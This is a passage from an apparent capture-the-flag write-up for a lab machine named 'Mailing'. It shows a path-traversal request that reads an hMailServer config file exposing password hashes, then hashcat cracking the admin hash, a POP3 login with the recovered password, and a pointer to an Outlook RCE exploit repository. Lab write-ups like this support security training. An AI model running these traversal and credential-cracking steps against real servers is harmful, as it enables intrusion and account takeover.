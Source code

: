 Searching in the `hMailServer` documentation, we learn that the config file is in `'Program Files (x86)\hMailServer\Bin\hMailServer.ini'`.

```shell
$ curl "http://mailing.htb/download.php?file=..\..\..\..\..\..\Program%20Files%20(x86)\hMailServer\Bin\hMailServer.ini"
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```

With `hashcat`, we recover one hash, the `AdministratorPassword` one.

```shell
$ hashcat -m 0 hashes /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz --force
hashcat (v6.2.6) starting
...
841bb5acfa6779ae432fd7a4e6600ba7:homenetworkingadministrator
```

Test the credential with `telnet` connecting to `pop3`.

```shell
$ telnet mailing.htb 110
Trying 10.10.11.14...
Connected to mailing.htb.
Escape character is '^]'.
+OK POP3
user administrator@mailing.htb
+OK Send your password
pass homenetworkingadministrator
+OK Mailbox locked and ready
```

Sending links and stuff with `sendEmail` doesn't get a response back, so searching for vulns we find [https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability).
